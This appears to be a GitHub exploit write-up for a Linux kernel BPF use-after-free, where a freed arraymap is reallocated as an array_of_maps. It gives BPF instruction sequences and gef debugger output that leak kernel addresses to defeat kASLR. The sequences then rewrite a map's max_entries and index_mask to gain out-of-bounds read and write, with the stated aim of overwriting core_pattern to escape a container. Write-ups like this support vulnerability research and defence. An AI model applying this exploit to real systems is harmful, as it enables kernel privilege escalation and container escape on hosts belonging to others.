 
Bpf program treats BPF_REG_8 stored map address as arrymap, but it's arry_of_maps.
```C
// Now BPF_REG_8 is freed and reallocate as array_of_map
BPF_LDX_MEM(BPF_DW, BPF_REG_0, BPF_REG_8,0), 
```

We can leak arrymap address and array_map_ops by malformed arraymap.
Once we know array_map_ops kernel address, we can find the kASLR base address
```
gef➤  p &array_map_ops
$2 = (const struct bpf_map_ops *) 0xffffffff829c29e0 <array_map_ops>
gef➤  p _stext
$3 = {<text variable, no debug info>} 0xffffffff81000000 <startup_64>
```

```C
BPF_LDX_MEM( BPF_DW, BPF_REG_0, BPF_REG_8, 0), // Now BPF_REG_8 is freed and reallocate as array_of_map
BPF_STX_MEM(BPF_DW, BPF_REG_9, BPF_REG_0, 0), // store a arrymap address to our arrymap as value
BPF_ALU64_IMM(BPF_ADD, BPF_REG_0, -0x110), // adjust address to make value as bpf_array.map
BPF_STX_MEM(BPF_W, BPF_REG_8, BPF_REG_0,0), //store our malformed arraymap info array_of_maps
```

# Exploit Tech Detail

The exploit after win the race

* Modified victim arraymap's max_entries and index_mask.
* Use victim arraymap to modified near array_of_maps's value index 0 arraymap as (core_pattern-struct_bpf_array_offset).
* Update array_of_maps to modify core_pattern.
* Achieve container escape.


## Modified victim arraymap's max_entries and index_mask.

As the value is adjust as bpf_array.map, so we can create a bpf program to modify map.max_entrieds and array->index_mask

```C
		BPF_LD_MAP_FD(BPF_REG_9, target),
		BPF_MAP_GET_ADDR(0, BPF_REG_9),
		BPF_MAP_GET_ADDR(4, BPF_REG_8),
		BPF_ST_MEM(BPF_W, BPF_REG_8, 4, 0x800), //modify map.max_entries

		BPF_MAP_GET_ADDR(0x20, BPF_REG_8),
		BPF_ST_MEM(BPF_W, BPF_REG_8, 4,0xffff), //modify array->index_mask
```

Modify map.max_entries as 0x800 to make sure it can overwrite to the next chunk under kmalloc-1024.
Modify array->index_mask to 0xffff to achive oob read/write in array_map_lookup_elem and array_map_update_elem.
```c
static void *array_map_lookup_elem(struct bpf_map *map, void *key)
{
...

	return array->value + (u64)array->elem_size * (index & array->index_mask);


static long array_map_update_elem(struct bpf_map *map, void *key, void *value,
				  u64 map_flags)
{
...
		val = array->value +
			(u64)array->elem_size * (index & array->index_mask);
```